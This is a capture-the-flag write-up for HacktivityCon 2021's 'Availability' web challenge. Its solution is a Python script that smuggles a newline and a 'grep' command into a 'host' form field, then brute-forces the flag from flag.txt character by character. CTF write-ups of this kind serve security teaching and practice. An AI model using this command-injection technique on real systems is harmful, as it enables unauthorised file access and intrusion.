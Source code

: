 ```yaml
---
name: Availability (2021)
event: HacktivityCon CTF 2021
category: Web
description: Writeup for Availability (Web) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Availability

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=5074s "HacktivityCon 2021: Availability")

## Challenge Description

> My schol was trying to teach people about the CIA triad so they made all these dumb example applications... as if they know anything about information security.
>
> They said they fixed the bug from the last app, but they also said they knew they went overboard with the filtered characters, so they loosened things up a bit. Can you hack it?

## Solution

{% code overflow="wrap" %}
```py
import requests
import string

flag = "flag."
url = "http://challenge.ctf.games:30669/"

# Each time a successful login is seen, restart loop
restart = True

while restart:
    restart = False
    # Loop through chars
    for i in string.ascii_lowercase + string.digits:
        payload = flag + i
        post_data = {'host': '127.0.0.1\x0Agrep ' + payload + ' flag.txt'}
        r = requests.post(url, data=post_data)
        # Correct char results in "successful password"
        if 'Success' in r.text:
            print(payload.replace('.', '{'))
            restart = True
            flag = payload
            # Exit if we have flag{32-hex
            if len(flag) == 37:
                print('\nFlag: ' + flag.replace('.', '{') + '}')
                exit(0)
            break
```
{% endcode %}
